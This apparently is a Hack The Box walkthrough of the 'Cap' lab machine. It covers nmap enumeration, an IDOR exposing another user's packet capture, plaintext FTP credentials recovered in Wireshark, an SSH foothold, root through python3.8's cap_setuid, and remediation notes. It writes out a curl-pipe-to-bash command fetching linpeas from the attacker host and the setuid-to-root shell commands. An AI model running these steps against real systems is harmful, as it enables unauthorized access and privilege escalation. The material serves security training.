Cap is an easy Linux machine running an HTTP dashboard that performs administrative functions including network captures. Weak object references expose another user’s capture, the capture holds plaintext credentials for foothold, and a Linux capability escalates to root. Format follows the official HTB walkthrough structure: synopsis, skills, enumeration, exploitation, privilege escalation.
$ Synopsis
Target services: FTP (21), SSH (22), and a Gunicorn-based HTTP dashboard on port 80. The dashboard executes system commands (ifconfig, netstat) and lets users take 5-second packet captures downloadable as PCAP files. Captures are addressed as /data/<id> with incrementing IDs — browsing /data/0 reveals another user’s capture containing FTP authentication in plaintext. Those credentials work over SSH, and the cap_setuid capability on python3.8 gives root via os.setuid(0).
$ Skills required
Web enumeration, packet capture analysis with Wireshark, Linux capability abuse.
$ Enumeration — Nmap
# nmap: all ports, then targeted scan
ports=$(nmap -p- --min-rate=1000 -Pn -T4 10.10.10.245 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.10.245
Nmap reveals three open ports: FTP (21, vsftpd 3.0.3), SSH (22, OpenSSH 8.2p1), and HTTP on port 80 (Gunicorn).

$ Enumeration — FTP
Check anonymous access first — it fails, so FTP is parked until credentials appear later.
# ftp: test anonymous login
ftp 10.10.10.245
Name (10.10.10.245:root): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed.

$ Enumeration — HTTP dashboard
Browsing port 80 reveals a monitoring dashboard with Security Snapshot (5-second PCAP + analysis), IP Config, and Network Status pages. The IP Config page prints ifconfig output and Network Status prints netstat — the application is executing system commands. The Security Snapshot menu pauses a few seconds and returns a capture analysis page with a Download link for the PCAP.


$ IDOR — another user’s capture
New captures are addressed as /data/<id> with the ID incrementing per capture. Trying lower IDs is the obvious test: browsing to /data/0 reveals a capture with far more packets than ours — data belonging to another user. This is Insecure Direct Object Reference: no ownership check on the capture ID.


$ Foothold — Wireshark credential recovery
Download the ID 0 capture and open it in Wireshark. It contains FTP control traffic in plaintext, including USER nathan and the PASS value. The same credentials authenticate over SSH — foothold achieved.


# ssh: login as nathan
ssh nathan@10.10.10.245
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)

$ Privilege escalation — linpeas and capabilities
Run linpeas (serve it from the attack box with python3 -m http.server and pipe curl into bash) and look for files with capabilities. /usr/bin/python3.8 carries cap_setuid plus cap_net_bind_service — not a default. CAP_SETUID lets the process switch UID without the SUID bit, so python can become root directly.
# bash: run linpeas, inspect capabilities
curl http://10.10.14.24/linpeas.sh | bash
<SNIP>
Files with capabilities:
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep

# python: setuid to root
nathan@cap:/tmp$ /usr/bin/python3.8
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
root@cap:/tmp# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)

$ Remediation notes
Enforce per-user ownership checks on every object ID (the /data/<id> endpoint must verify the requester owns the capture), never transmit credentials in plaintext protocols, and never grant cap_setuid to interpreters — a capable python is a root shell waiting for three lines of code. User and root flag values are redacted per HTB rules.
Screenshots: official HTB walkthrough captures, used for illustration. Written by Lucky Thandel.